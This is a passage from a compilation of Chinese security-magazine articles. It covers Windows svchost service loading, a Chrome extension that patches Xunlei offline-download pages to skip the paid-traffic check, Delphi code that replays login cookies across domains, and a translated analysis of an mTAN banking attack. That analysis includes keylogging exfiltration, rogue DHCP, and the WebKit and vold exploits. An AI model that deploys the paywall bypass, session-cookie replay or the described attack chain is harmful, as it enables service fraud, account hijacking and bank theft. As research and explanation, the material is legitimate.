

图 6 一个服务进程的启动

#### 使用 Svchost 实现的服务

服务的可执行文件除了以 .exe 和 .sys 文件的形式出现外，还有一种是以 .dll 动态链接库的方式存在的。DLL 文件被使用的情况，一般是用于多个不同的服务作为线程运行于同一个进程中，当然这些服务的功能一般都属于同一类，如网络服务、本地服务等。这个相当于母体的进程称为宿主，其实体为 svchost.exe（\windows\system32\svchost.exe）。很明显，多个服务运行于同一个宿主的方式可以有效地节约资源。

使用宿主方式实现的服务主要体现在其键值 ImagePath 的内容里，比较典型的是以“svchost.exe -k 服务类名”的格式呈现，其中服务类名是位于 svchost 内容键下的内容，如“LocalService”、“netsvcs”、“DcomLaunch”等，每个服务类名的键值中包含了一个或者多个服务名。如果我们打开“进程管理器”，会看到几个 svchost 进程，一个 svchost 进程对应于一个服务类别。现在的问题是 ImagePath 的内容是“svchost.exe -k 服务类名”的形式，而它实际载入的 DLL 文件体现在哪里呢？这就需要参考 svchost 服务参数键下的内容，在其下面有一个称为“ServiceDll”的键，其值说明了实际需要载入的 DLL 文件的位置。好了，把思路清理一下，每个服务 ImagePath 键值中以“svchost.exe -k 服务类名”的方式说明了我是一个与别的服务共享同一进程的服务，而我的实际执行者位于 svchost 服务参数键下。

好了，结构已经清晰了，我们看看 SCM 是如何处理 svchost 类型的服务的。当 SCM 逐个启动服务，遇到第一个 ImagePath 的内容是“svchost.exe -k 服务类名”的服务时，SCM 会将它记录下来，并启动一个 svchost 进程，同时将服务类名作为参数传递给 svchost 进程。svchost 进程会在 svchost 内容键下查找该服务类的注册表值，svchost 进程读取这个值的内容，一般会有一个或多个服务名，形成一个列表。然后 svchost 进程会通知 SCM：我已经做好了容留这种服务类服务的准备，随后通过 svchost 服务参数键下的内容加载相应的 DLL 文件，启动对应的服务。

当 SCM 再次遇到同一个服务类的服务，其 ImagePath 的内容是“svchost.exe -k 服务类名”，那么 SCM 就不会再启动另外一个进程，而是向已经启动的同一服务类的 svchost 进程发送一个服务启动命令，让它启动当前的服务。这时该 svchost 进程已经有了一个服务列表，因此它会读取当前服务注册表键中的 ServiceDll 参数，将对应的 DLL 加载进其进程空间中，继而启动该服务。

#### 小结

服务的内容就讲到这里，SCM 的实现是本篇文章的重点，而服务是如何组织的、SCM 是如何载入一个服务的，这两点又是 SCM 实现的重点。能够理清这两部分内容的思路，本文的目的也就达到了。

### 编写谷歌浏览器插件免费使用迅雷会员

图/文 unity

自从我的电驴账户升级成了铜光盘，每天都会去 verycd 上逛逛，用迅雷离线下个电子书看看。可惜今天登上离线服务后，发现会员过期了！离线的体验账户是按流量计算的，随便找了个文件下载，发现流量早耗光了！因为笔者以前写过迅雷离线的 Linux 客户端，所以对其前端页面结构很是了解，于是直接打开谷歌浏览器进行分析，如图 1 所示。



图 1

很明显吧？虽然是体验期，但是迅雷离线还是乖乖地把下载地址打印出来了！ID 为 dl_url+taskid 的 input 标签就是下载地址！此时用浏览器直接打开地址的话，奇迹发生了，竟绕过了流量检查！

虽说迅雷没有在后台做流量检查，但我们不能总是这样下载文件吧，太麻烦了！迅雷现在把“高速取回”的链接都去除了，只是简单设置了 onclick 事件，如果我们用脚本手动找到下载地址，然后 patch 一下页面，不就绕过了检查吗？

那么怎么实现呢？我们编写脚本，找到所有的下载地址，然后填入对应的“高速取回”的 href 属性。

```javascript
var elements = document.getElementsByClassName('link_gettxt');
for (var i = 0; i < elements.length; ++i)
{
    var a = elements[i];
    a.onclick = function() { return true; };
    // 首先找到 taskid
    var par = a.parentElement.parentElement.parentElement;
    var id = par.getAttribute("taskid");
    // 然后找到对应的 input，以及 value
    var addr = document.getElementById("dl_url" + id).value;
    a.href = addr;
};
```

在 Developer Tools 里手动执行一下，会发现“高速取回”已经变成了正常的下载链接了。作为一个懒人，我不能每次都这么做。看起来谷歌浏览器的插件最容易开发了，我们就做一个插件吧，让这个脚本自动地在离线页面上运行。

首先编写一个 manifest，允许这个插件访问“http://*”。

```json
{
    "name": "Kill Thunder Cloud",
    "version": "0.3",
    "manifest_version": 2,
    "content_scripts": [
        {
            "matches": ["http://*/*", "https://*/*"],
            "all_frames": true,
            "run_at": "document_end",
            "js": [
                "main.js"
            ],
            "css": [
                "style.css"
            ]
        }
    ]
};
```

之后填入我们的 js 文件 main.js。

```javascript
String.prototype.beginsWith = function (string) {
    return (this.indexOf(string) === 0);
};

// 判断当前页面是否为迅雷离线页面
if (window.location.href.beginsWith("http://dynamic.cloud.vip.xunlei.com/"))
{
    // 这里填入我们刚才的脚本
};
```

保存后，放到一个目录里面，用谷歌浏览器加载这个目录，如图 2 所示，就可以绕过“高速取回”的流量限制检查了。



图 2

### 利用 Cookies 实现网站自动登录

文/图 SCEIIP

目前，基于 Web 的应用可以说是大行其道。出现得比较早的基于 Web 的电子邮件解决方案，目前已发展得十分成熟，并有取代传统的 SMTP、IMAP 等需要客户端软件支持的解决方案的趋势。部分传统行业也开始尝试使用基于 Web 的解决方案来处理各项事务，从企业内部的办公自动化系统，到校园里的学生教务管理系统，乃至在线订票系统等，各种类型的 Web 应用以其操作简单、兼容性强等特点吸引了大量用户。

但 Web 应用也存在其固有的缺陷。身份验证的安全性和便利性，是部分网站欠缺考虑的一个地方。部分网站使用明文传输密码的方式完成身份验证，导致恶意用户可以通过监听手段获取密码信息，在安全性上不能不说是欠考虑。此外，部分网站的登录方式不具备便利性，每次使用之前都需要输入一遍用户名和密码以验证用户身份，且关闭浏览器以后即需要重新登录，对于经常需要使用某个特定服务的用户来说是难以忍受的。为了缓解此类问题，部分网站提供了记住用户身份的选项，但这种方式只是简单延长 Cookies 的保存期限，很多时候不能完全解决问题。例如笔者正在使用的博客系统即具备记住登录状态的功能，在登录时设置记住登录状态之后，系统会延长 cookies 的保留时间，下一次启动浏览器时不需要重新登录即可进入后台编写文章。如果只在一台计算机上进行编辑工作，这种自动登录的方式是可以接受的。如果用户在另外一台计算机上完成登录，在原先计算机上所保存的 Cookies 就不再是有效的认证信息了，要在原先的计算机上进行编辑工作，还需要再登录一次。在频繁切换终端设备的情况下（例如从平板电脑到家用笔记本到办公室计算机），由于每次切换终端设备就需要重新登录一次，因而事实上这种自动登录的实现方式没有给用户带来任何便利。为了缓解这个问题，网站的开发人员可能选择在 Cookies 中保存用户名、密码等完整的验证信息或者使用更复杂的认证步骤。前一种方法存在巨大的危险性，而后一种方法实现起来比较麻烦，若不存在大量有这种需求的用户，网站设计者可能并不会去考虑。

为了在网站不支持多计算机自动登录的情况下实现自动登录的功能，浏览器厂商以及浏览器插件厂商提供了一些不同的解决方案。广泛采用的一种解决方案是保存明文的用户名和密码，在需要登录时自动填写并提交。这种方法存在巨大的缺陷：由于部分网站会使用验证码等机制防止恶意登录，遇到这种情况时用户需要手动输入验证码，不具备便利性，而更大的一个问题则是这种自动登录方式要求浏览器保存明文的密码，虽然浏览器厂商可能会采取加密措施，但由于最终需要还原出密码明文，所以只要稍加分析即可解密并获取用户的隐私信息，不具备安全性。

本文所介绍的实现网站自动登录的方案，通过获取/设置特定网站的 Cookies，达到在不保存明文密码的情况下实现网站自动登录的目的，具有一定的便利性和安全性。本方案可以通过浏览器或浏览器插件的开发加以实现，最终达到增强 Web 应用的便利性的目的。本文通过使用 Delphi 语言和其所提供的基于 IE 内核 WebBrowser 控件和 WinInet API 完成获取、设置 Cookies 的过程演示。

本方案首先需要解决的一个问题即为如何获取特定网站的 Cookies。在 IE 内核所提供的允许开发者访问 HTML 文档中的元素和相关信息的 IHTMLDocument2 接口中，提供了 Cookies 属性，通过读取 IHTMLDocument2.cookie，即可获取、设置当前浏览器窗口正在访问的网站的 Cookies，具体实现代码如下：

```delphi
procedure TForm1.Button2Click(Sender: TObject);      // 获取 Cookies
begin
  Memo1.Text := (WebBrowser1.Document as IHTMLDocument2).cookie;
end;
```

这段代码将 WebBrowser1.Document 转换成 IHTMLDocument2 并获取其 Cookie 属性。另一个需要解决的问题即为设置特定网站的 Cookies 为给定的值。在实现了获取 Cookies 的基础之上，相信很多读者会给出下面的代码：

```delphi
procedure TForm1.Button3Click(Sender: TObject);      // 设置 Cookies
begin
  (WebBrowser1.Document as IHTMLDocument2).cookie := Memo1.Text;
end;
```

事实上，这段代码在简单的网站上确实能够正常工作，这也是网络上能检索到的资料中最为频繁使用的方法。然而，在现今的很多网站上，这段代码会存在各种各样的问题，具体表现为网站提示需要重新登录，或者网站的部分功能模块无法正常使用，或者在网站的其它分站点出现会话丢失的问题，这种类型的问题几乎全部可以归结为跨域 Cookies 的使用。为了实现网站的各个子域名之间可以共享一个登录会话而不需要用户多次登录，网站的开发人员多数会使用跨域 Cookies 技术。由于跨域 Cookies 的规则稍显复杂，下面只做简单的概述，感兴趣的读者可以查找相关资料。

通常来说，Cookies 是不可以跨域名传递的，例如在 a.example.com 上设置的 Cookies，如果服务器没有指定跨域传递，在访问 b.example.com 时浏览器不会传递这些 Cookies。通过设置 Cookies 的 Domain 属性，可以使特定的 Cookies 在多个子域名中共享，使 b.example.com 中的页面也可以访问在 a.example.com 上设置的 Cookies，达到多个二级域名共享同一会话状态的目的。当然，无论如何 site1.com 是不允许设置 site2.com 的 Cookies 的，这违反了安全原则。

出现问题的网站一般都使用了跨域 Cookies 技术，通过设置 Domain 属性使网站各个子域名下的 Cookies 得以共享，而从 (WebBrowser1.Document as IHTMLDocument2).cookie 属性中获取的 Cookie 是只包含 Key-Value 信息而不包含 Domain 信息的，自然将这些 Cookie 写回的结果也只能保证某一个子域名下这些 Cookies 有效。因此，当网站跳转到其它的子域名或者使用在其它子域名下的功能模块时，就会出现错误提示或要求重新登录。因此，直接设置页面的 Cookie 属性而不指定 domain 参数，设置的 Cookies 只能在当前子域名下生效，在如今很多使用了跨域 Cookies 技术的网站中无法成功实现自动登录的功能。

这个问题可以通过 WinInet API 函数 InternetSetCookie 一个未被文档化的使用方法加以解决。WinInet API 可以设置基于 IE 内核的浏览器的 Cookies，官方文档如下：

```text
InternetSetCookie function
Creates a cookie associated with the specified URL.
BOOL InternetSetCookie(
    _In_  LPCTSTR lpszUrl,
    _In_  LPCTSTR lpszCookieName,
    _In_  LPCTSTR lpszCookieData
);
```

- **Parameters**
- **lpszUrl [in]**: Pointer to a null-terminated string that specifies the URL for which the cookie should be set.
- **lpszCookieName [in]**: Pointer to a null-terminated string that specifies the name to be associated with the cookie data. If this parameter is NULL, no name is associated with the cookie.
- **lpszCookieData [in]**: Pointer to the actual data to be associated with the URL.
- **Return value**: Returns TRUE if successful, or FALSE otherwise. To get a specific error message, call GetLastError.

**Remarks**  
Cookies created by InternetSetCookie without an expiration date are stored in memory and are available only in the same process that created them. Cookies that include an expiration date are stored in the windows\cookies directory.

Creating a new cookie might cause a dialog box to appear on the screen asking the user if they want to allow or disallow cookies from this site based on the privacy settings for the user.

**Caution** InternetSetCookie will unconditionally create a cookie even if “Block all cookies” is set in Internet Explorer. This behavior can be viewed as a breach of privacy even though such cookies are not subsequently sent back to servers while the “Block all cookies” setting is active.

这份文档说明了如何设置一个具有特定 Key、Value 的 Cookie 至对应的 URL，并未介绍如何设置 Cookie 的跨域属性。事实上，该函数具有一个未公开的使用方法，可以设置 Cookie 的 Domain、Expires、Path 等诸多属性。经过笔者的分析与测试，具体调用方式如下：```delphi
InternetSetCookie(URL, nil, PChar('Name=Data;Domain=domain;Expires=expires;Path=path'));
```

保留 lpszCookieName 为空，而在 lpszCookieData 里使用 Name=Data 格式，通过这种方法可以在设置 Cookies 时提供包括 Domain 在内的多种属性。在本例中只需要设置 Domain 属性即可实现自动登录，具体实现代码如下：

```delphi
s := cookie + '; Domain=' + domain;
InternetSetCookie(PChar(Edit1.Text), nil, PChar(s));
```

即可设置一个具有特定 Domain 属性的 Cookie，具有跨域效果。

当然，从 `(WebBrowser1.Document as IHTMLDocument2).cookie` 属性中获取网站的所有 Cookies 是一个以分号分隔的完整字符串，在这里需要重新分隔并逐一设置，完整程序代码如下：

```delphi
（SplitString 函数的功能是分割特定的字符串，来源于网络）
function SplitString(const Source, ch: String): TStringList;
var
  temp: String;
  i: Integer;
begin
  Result := TStringList.Create;
  if Source = '' then Exit;
  temp := Source;
  i := Pos(ch, Source);
  while i <> 0 do
  begin
    Result.Add(Copy(temp, 0, i - 1));
    Delete(temp, 1, i);
    i := Pos(ch, temp);
  end;
  Result.Add(temp);
end;

procedure TForm1.Button3Click(Sender: TObject);
var
  domains, cookies: TStringList;
  i, j: Integer;
  s: String;
begin
  cookies := SplitString(Memo1.Text, ';');
  domains := SplitString(Edit2.Text, ';');
  for i := 0 to cookies.Count - 1 do
  begin
    for j := 0 to domains.Count - 1 do
    begin
      s := cookies.Strings[i] + '; Domain=' + domains.Strings[j];
      InternetSetCookie(PChar(Edit1.Text), nil, PChar(s));
    end;
  end;
end;












```

这段代码实现了将 Memo1 中以分号分隔的 Cookies 设置到 Edit2 中以分号分隔的各个域名中，使设置的 Cookies 具备跨域效果。

为了实现特定网站的自动登录，还需要知道网站 Cookies 具体的 Domain 属性。在 Chrome 浏览器上使用开发者工具，即可查看当前网站所有 Cookies 的 Domain 属性，如图 1 所示。
图 1

示例程序可以实现基于 IE 内核获取网站 Cookies 及设置具有跨域属性的 Cookies 功能。这里以 QQ 邮箱为例简单说明一下使用方法：点击 Go 访问 QQ 邮箱并登录后，即可单击 GetCookie 按钮获取当前网站的 Cookies，将其记录下来并重新启动程序，在 Memo1 中输入之前所获得的 Cookies 以后，单击 SetCookie 按钮即可使用之前的 Cookies 完成自动登录。访问腾讯微博等其他分站时会话也可以正常使用，说明示例程序成功通过设置 Domain 属性实现了 Cookies 跨域，实现网站的自动登录功能。

当然，本文中的代码只是一个概念演示。要真正实现跨终端自动登录，还需要解决 Cookies 的有效时间限制、Cookies 的保存以及在不同终端之间同步，才能够使其真正具备便利性。本文代码是基于 IE 内核实现的，读者在掌握具体原理之后可以进一步开发 Chrome 浏览器插件，或者选择自己设计一个浏览器等等，从而将文中所提供的网站自动登录实现方案加以完整实现。

（完）

### 跨平台感染挑战电子银行动态口令认证

文/Lucas Davi, Alexandra Dmitrienko  
译/小小杉

由于交易的便捷性及低成本的特点，网络银行迅速成为最常用的银行支付手段。据美国银行业报道称，电子支付交易量已经从 2010 年的 36% 上升到了 62%。另一方面，网上交易同样吸引了各类网络金融犯罪分子，他们都试图寻找各家银行的网络银行漏洞。这就类似猫和老鼠的故事：攻击者采用的攻击手法变得越来越精湛，而银行则不断更新自己的认证机制以应对新的威胁。

当前最为时髦的技术即双因素认证机制，例如基于硬件令牌的 Token 机制。但这种机制对于在各家银行都开有账户的客户而言，需要到每家银行申领一个硬件 Token，显然使用并不便捷。各家银行基于用户便捷及安全性等考虑，大多推出了基于 SMS 的动态口令版电子支付，即在各行电子支付平台选择动态口令版支付，此时银行会通过动态口令系统向客户推送移动交易认证码（mTAN）到客户开户时预留的手机号上，此认证码满足一次一密特性。整个电子支付过程如图 1 所示。
图 1 基于 mTAN 的认证电子支付流程

图中给出的电子支付流程中涉及的双因子即用户名及密码、动态口令。客户在电子支付时输入用户名和密码，进入银行电子支付平台，将支付请求发送到银行后台服务器。银行会随机产生一个随机码即动态口令 k，将 k 和客户请求的支付金额、付款用途等一并发送到客户手机。客户核对无误后，在银行提供的支付页面上输入 k，提交请求即完成支付。

#### 基于 mTAN 认证的攻击

下面的内容是在一定的假设前提下描述的攻击场景。

### 1）假设条件

假设用户的 PC 已经被恶意软件感染，用户的移动手机虽未感染，但存在软件漏洞，可利用此漏洞实施远程代码执行。假设 PC 被恶意软件感染是合理的，因为双因素认证对被感染的主机是容忍的，即不主动探测是否感染病毒；其次，来自各种不安全程序编写导致的可利用漏洞很常见。最后，我们假设用户的 PC 和手机都处在一个相同的 WiFi 网络内。

### 2）系统模型

我们的场景除了包含用户 U、移动手机 M、客户 PC 机和银行服务器（提供支付页面等）之外，还引入了一个远程恶意服务器 S 和一个 WiFi 路由器 R，以提供 M 和 C 之间的无线通信。

**攻击场景。**首先，主机 C 上的恶意程序截获用户登录名和密码（creds）信息，并传送到 S；其次，实施跨平台感染技术迫使客户手机感染病毒；最后，S 在获取到用户登录信息 creds 和动态口令 mTANs 后，完成非法支付交易。整个攻击过程可参考图 2。
图 2 电子支付攻击流程

**窃取用户身份信息。**为了窃取用户信息，潜伏在 C 上的病毒程序等待客户在网络银行界面输入客户登录信息，在登录过程中截获用户输入信息（各种键盘过滤驱动程序均可实现，如 keylogger），然后启动后门程序，建立远程连接将 creds 发送到 S。

**跨平台感染技术。**客户主机 C 在手机设备 M 和 R 之间充当中间人，即每次 M 和 R 之间的通信都需经过 C。各种技术可满足上述要求，如 ARP 缓存污染、DHCP 劫持攻击等。当用户浏览页面时，页面请求被重定向到中间人 C，C 上传一个已感染的页面，M 点击页面即被感染，注入一段可执行的恶意代码。最后，恶意代码需提升权限，以获得 SMS 短信拦截所具备的特权。

#### 跨平台感染剖析

**DHCP 耗竭攻击。**即用虚假的 MAC 地址广播 DHCP 请求，向 DHCP 服务器发送大量请求。DHCP Servers 根据 MAC 地址不同，认为请求来自不同主机，此时会为每个 MAC 地址请求分配一个 IP 地址，使其在一定时间内耗尽 DHCP Servers 可提供的地址空间。这种耗尽式攻击类似于 SYN flood。

**伪 DHCP 服务器。**启动伪 DHCP 服务器，攻击者向 M 提供 IP 地址和其他网络信息，包括默认网关和 DNS 服务器信息等。然后，攻击者将自己主机通告成默认网关和 DNS 服务器以充当中间人，每次来自 M 的请求都被定向到伪 DHCP Server。此时服务器 S 以一个恶意 Web 页面作为响应，如图 3 所示。
图 3 DHCP 耗竭攻击实现请求过滤

**远程漏洞利用执行任意代码。**为了在 Android 2.2.1 系统上获取远程代码执行权限，我们利用了 WebKit 包的一个缺陷。此缺陷在 CVE-2010-1759 中有详细描述，即 Use-After-Free 内存滥用漏洞：尝试通过指针引用已释放的内存地址，导致程序崩溃。为了利用此漏洞，攻击者必须使用自己的 C++ 对象初始化一个内存块，然后通过指针引用一块已释放的内存地址。事实上，攻击者不得不开发一个恶意 JavaScript 脚本，以执行下面任务：

- （i）创建两个对象并引用同一个对象结构；
- （ii）迫使其中一个对象释放掉引用的对象地址，但保留另一个对象的地址引用；
- （iii）调用引用已释放内存地址的对象完成代码执行。

为了开发一个合适的 JavaScript 脚本，需要克服很多困难。首先，JavaScript 并没有提供销毁内存的函数方法，所有对象都是通过垃圾回收器处理，也没有明确方法可触发垃圾回收器。针对这个问题，可通过分配大量对象、滥用对象内存分配来触发内存垃圾回收。

另一个问题是内存分配优化。WebKit 使用 TCMalloc 机制管理内存，一次性从操作系统分配大量内存空间，然后内部实现内存管理，即合理分配与释放内存。这给攻击者带来很大挑战，即 TCMalloc 分配的单一内存 buffer 可能会被切割成更小的几个内存 chunks。

为了得到一个相对较大的 chunks，攻击者不得不分配 Unicode 字符串，以使其存放在单一内存 chunks 内，保证字符串正确解析。对 TCMalloc 不理解的读者可参考  
http://shiningray.cn/tcmalloc-thread-caching-malloc.html  
给出的原理介绍，即《TCMalloc：线程缓存的 Malloc》一文。整个远程执行恶意代码的流程如图 4 所示。
图 4 WebKit 引擎中的 Use-After-Free 漏洞利用（CVE-2010-1759）

**权限提升至 Root 级。**利用 CVE-2011-1823 漏洞，即 Android 提供的 vold volume manager 后台程序信任了从 PF_NETLINK 套接字接收的消息，可允许本地用户通过负索引执行任意代码并获取 root 用户权限的漏洞。下面利用此漏洞重写一个全局偏移表 GOT 的入口指针，并调用远程代码执行。

GOT 包含了程序需调用的动态库索引地址。运行时，程序并不会直接调用动态库函数，而是通过过程连接表 PLT 给出的 GOT 表项地址跳转，即每个 PLT 入口项对应一个 GOT 项。执行函数实际上就是跳转到相应 GOT 项存储的地址。（译注：首次使用动态库函数时，GOT 表项中未存储函数地址，需通过 `.got.plt` 段的 `_dl_runtime_resolve` 地址对应的函数调用 `_dl_fixup` 更新 GOT 的对应条目，以便后续调用直接引用 GOT 表项值）。当 GOT 中对应的函数指针地址被篡改，攻击者可迫使相应函数调用以完成恶意代码执行。可利用代码如下：

```c
int minor = atoi(evt->findParam("MINOR"));
int part_num;
const char *tmp = evt->findParam("PARTN");
if (tmp) {
    part_num = atoi(tmp);
}
[...]
mPartMinors[part_num -1] = minor;




```

